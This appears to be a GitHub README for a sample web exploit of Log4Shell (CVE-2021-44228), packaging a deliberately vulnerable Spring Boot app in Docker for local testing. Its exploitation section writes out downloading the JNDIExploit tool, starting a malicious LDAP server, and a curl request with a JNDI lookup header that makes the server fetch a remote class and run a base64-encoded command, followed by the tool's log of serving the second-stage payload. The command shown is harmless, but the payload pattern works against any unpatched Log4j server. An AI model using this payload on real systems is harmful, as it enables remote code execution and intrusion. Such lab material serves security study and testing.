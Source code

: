# Log4Shell sample web exploit (CVE-2021-44228)

A sample website that shows how easy it is to gain remote access of a server with the use of [Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/) (CVE-2021-44228).

Extends [log4shell-vulnerable-app](https://github.com/christophetd/log4shell-vulnerable-app) with a static web page that takes an input and interacts with the vulnerable spring-boot server.

This project was inspired by a [tweet](https://twitter.com/musalbas/status/1469297973704245260) from [@musalbas](https://twitter.com/musalbas) showing different sites affected by this exploit. These sites were patched in a matter of days but anyone could still attack these webservers undetected.

![](./images/screenshot.png)

## Running

Build it yourself (you don't need any Java-related tooling):

```bash
docker build . -t vulnerable-app
docker run -p 8080:8080 --name vulnerable-app --rm vulnerable-app
```

Then go to https://localhost:8080 to view the web page

## Exploitation steps

_Note: This is highly inspired from the original [LunaSec advisory](https://www.lunasec.io/docs/blog/log4j-zero-day/). **Run at your own risk, preferably in a VM in a sandbox environment**._

**Update (Dec 13th)**: _The JNDIExploit repository has been removed from GitHub (presumably, [not by GitHub](https://twitter.com/_mph4/status/1470343429599211528)). Just append `web.archive.org` in front of the JNDIExploit download URL below to use the version cached by the Wayback Machine._

Use this [Log4j Vulnerability Tester](https://log4j-tester.trendmicro.com/) by Trend Micro to see that our code is being executed on the vulnerable server:

- Copy the JNDI snapshot that is generated for you by Trend Micro and submit it to the demo webpage
  ![](./images/webpage.png)
- Go back to the Trend Micro site and see that our server is vulnerable to Log4Shell
  ![](./images/trendmicro.png)

Or for full access to the target server, use [JNDIExploit](https://github.com/feihong-cs/JNDIExploit/releases/tag/v1.2) to spin up a malicious LDAP server:

```bash

wget https://github.com/feihong-cs/JNDIExploit/releases/download/v1.2/JNDIExploit.v1.2.zip

unzip JNDIExploit.v1.2.zip

java -jar JNDIExploit-1.2-SNAPSHOT.jar -i your-private-ip -p 8888

```

- Then, trigger the exploit using:

```bash

# will execute 'touch /tmp/pwned'

curl 127.0.0.1:8080 -H 'X-Api-Version: ${jndi:ldap://your-private-ip:1389/Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo=}'

```

- Notice the output of JNDIExploit, showing it has sent a malicious LDAP response and served the second-stage payload:

```

[+] LDAP Server Start Listening on 1389...

[+] HTTP Server Start Listening on 8888...

[+] Received LDAP Query: Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo

[+] Paylaod: command

[+] Command: touch /tmp/pwned

[+] Sending LDAP ResourceRef result for Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo with basic remote reference payload

[+] Send LDAP reference result for Basic/Command/Base64/dG91Y2ggL3RtcC9wd25lZAo redirecting to http://192.168.1.143:8888/Exploitjkk87OnvOH.class

[+] New HTTP Request From /192.168.1.143:50119 /Exploitjkk87OnvOH.class

[+] Receive ClassRequest: Exploitjkk87OnvOH.class

[+] Response Code: 200

```

- To confirm that the code execution was successful, notice that the file `/tmp/pwned.txt` was created in the container running the vulnerable application:

```

$ docker exec vulnerable-app ls /tmp

...

pwned

...

```

## Reference

https://www.lunasec.io/docs/blog/log4j-zero-day/
https://github.com/christophetd/log4shell-vulnerable-app

## Contributors

[@enzdev](https://twitter.com/enzdev)
